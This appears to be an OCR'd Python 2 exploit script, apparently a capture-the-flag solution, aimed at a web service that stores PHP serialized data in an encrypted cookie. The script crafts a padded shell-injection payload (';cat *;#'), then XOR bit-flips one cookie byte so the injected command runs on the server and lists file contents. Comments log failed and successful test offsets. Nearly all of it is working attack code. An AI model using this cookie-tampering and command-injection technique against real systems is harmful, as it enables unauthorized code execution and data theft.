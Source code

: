 ```
    h = requests.post(url, data = d, headers = {'Content-Type' : 'application/x-www-form-urlencoded'}).headers
    if h.has_key('set-cookie'):
        h = dec(urllib.unquote_plus(h['set-cookie'][9:]))
        #h = urllib.unquote_plus(h['set-cookie'][9:])
        #print h
        return h
    else:
        print '[-] ERROR'
        sys.exit(0)

#a:2:{s:4:"name";s:10:"X;cat *;#a";s:8:"greeting";s:24:"echo 'Hello X;cat *;#a!'";}
#a:2:{s:4:"name";
#s:10:"X;cat *;#a
#";s:8:"greeting"
#;s:24:"echo 'Hel
#lo X;cat *;#a!'"
#;}

#a:2:{s:4:"name";s:42:"zzzzzzzzzzzzzzzzzX;cat *;#zzzzzzzzzzzzzzzz";s:8:"greeting";s:56:"echo 'Hello zzzzzzzzzzzzzzzzzX;cat *;#zzzzzzzzzzzzzzzz!'";}
#a:2:{s:4:"name";
#s:42:"zzzzzzzzzz
#zzzzzzzX;cat *;#
#zzzzzzzzzzzzzzzz
#";s:8:"greeting"   
#;s:56:"echo 'Hel
#lo zzzzzzzzzzzzz
#zzzzX;cat *;#zzz
#zzzzzzzzzzzzz!'"
#;}
#exploit = 'X' + ';cat *;#a' #Test case first, unsuccess
exploit = 'z'*17 + 'X' + ';cat *;#' + 'z' *16 # Test Success

#exploit = "______________________________________________________; cat *;#"
#Test(exploit)
cookie = GetCookie(exploit)
pos = 100; #test case success
#pos = 51; #test case first, unsuccess
val = chr(ord('X') ^ ord("'") ^ ord(cookie[pos]))
exploit = cookie[0:pos] + val + cookie[pos + 1:]
Pwn(exploit)

```